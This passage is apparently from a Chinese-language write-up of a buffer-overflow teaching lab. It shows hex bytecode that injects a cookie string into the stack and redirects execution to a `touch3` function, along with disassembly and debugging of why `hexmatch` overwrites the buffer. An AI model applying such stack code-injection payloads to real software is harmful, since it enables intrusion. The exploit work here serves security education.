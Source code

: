 为了测试 ` hexmatch` 的行为，我们对上一节的字节码稍作修改，将我的 cookie 的字符串表示存储在缓冲区内，并使程序跳转到 `touch3`，构造字节码如下：

```
48 c7 c7 b8 
dc 61 55 68 
fa 18 40 00 
c3 00 00 00 
35 39 62 39 
39 37 66 61 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
78 dc 61 55
```

跳转到 `touch3` 后，我们可以找到调用 `hexmatch` 的位置，于是可以分别在前后两行设置断点，并观察缓冲区的变化：

```
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00 
  401908:	48 89 fe             	mov    %rdi,%rsi
  40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
  401916:	85 c0                	test   %eax,%eax
```

在调用 `hexmatch` 之前，我们可以看到缓冲区的信息如下：

![Screen Shot 2017-05-21 at 16.02.55](/images/2017-7-9/Screen%20Shot%202017-05-21%20at%2016.02.55.png)

在调用 `hexmatch` 之后，我们可以看到缓冲区信息为：
![Screen Shot 2017-05-21 at 16.03.06](/images/2017-7-9/Screen%20Shot%202017-05-21%20at%2016.03.06.png)

可以看到，缓冲区前三行的内容全部为打乱了，我们保存的字符串信息也被完全破坏了。所以，我们需要为字符串寻找一个新的存放位置。

看到最后一行，`0x5561dcb8` 之后的位置没有被使用，而且刚好可以存放我们的字符串，所以，抱着试一试的态度，我将字符串目标地址设置为 `0x5561dcb8`，并将 cookie 的字符串信息保存到相应位置。

